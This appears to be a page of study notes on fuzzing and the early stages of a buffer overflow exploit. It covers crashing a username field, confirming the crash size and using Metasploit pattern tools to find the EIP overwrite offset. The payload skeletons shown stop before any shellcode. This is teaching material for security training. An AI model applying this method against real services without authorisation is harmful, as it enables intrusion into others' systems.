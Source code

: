  
### Fuzzing:
**Generation-based:** Creates malformed application inputsfrom scratch, following things like file format or network protocol specifications.  
  
**Mutation-based:** Changes existing inputs by using techniques like bit-flipping to create a malformed variant of the original input  
  
**Smart:** Aware of the application input format  
  
  
  
### Process:
##### fuzz
1. First, **fuzz** the username field by crafting a python script to send increasingly large data.  
	- Once an Access Violation is triggered w/in Immunity Debugger, you have an idea how large the byte size of your payload must be.  
```bash
size = 100  
  
while (size < 2000):  
...  
size += 100
```
```bash
Sending 800 bytes  
Cannot connect!
```

##### replicate
2. Replicate the crash by duplicating the fuzzer and replacing the size of the data.  
	- If the replaced size causes the same crash, you've got the rough size to work with  
```bash
size = 800  
  
inputBuffer = "A" * size
```

##### eip
3. Find EIP as you need to know exactly where the EIP register gets overwritten:  
	- Create a randomized pattern to find exactly where EIP is (sub size discovered during fuzzing & confirmed during replication) & sub in script
```
bash
msf-pattern_create -l 800
```
```bash
#size = 800  
  
inputBuffer = "kajfweb4ua80r9svfuogFJKLANSDf;F/KN.........
```
	
 - Once new exploit's run again, use the distinct value that EIP contains to then find the exact offset of the EIP register & test to verify: EIP should hold the 4 B's::: 42424242  
```bash
msf-pattern_offset -l 800 -q 42306142  
[*] Exact match at offset 780
```
```bash
filler = "A" * 780  
eip = "B" * 4  
buff = "C" * 20  
  
inputBuffer = filler + eip + buff
```

